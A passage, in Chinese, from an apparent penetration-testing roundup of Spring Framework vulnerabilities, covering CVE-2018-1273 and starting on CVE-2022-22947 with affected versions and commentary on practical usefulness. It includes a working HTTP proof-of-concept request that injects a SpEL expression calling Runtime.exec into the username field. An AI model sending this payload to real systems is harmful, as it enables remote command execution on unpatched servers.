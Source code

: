 
Spring Framework 4.3 to 4.3.14

**该漏洞实战能力极弱**

## 5、Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

影响范围：

Spring Data Commons 1.13至1.13.10（Ingalls SR10）


Spring Data REST 2.6至2.6.10（Ingalls SR10）


Spring Data Commons 2.0至2.0.5（Kay SR5）


Spring Data REST 3.0至3.0.5（Kay SR5）

POC:

```
POST /users?page=&size=5 HTTP/1.1
Host: 192.168.2.66:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

**该漏洞反弹shell，需要使用文件下载脚本，配合执行进行上线，同时无法判断漏洞特征，所以同样实用性较弱**

## 6、Spring Cloud Gateway Actuator API SpEL表达式注入命令执行（CVE-2022-22947） 

Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

漏洞发现：

/actuator/gateway/路径未授权

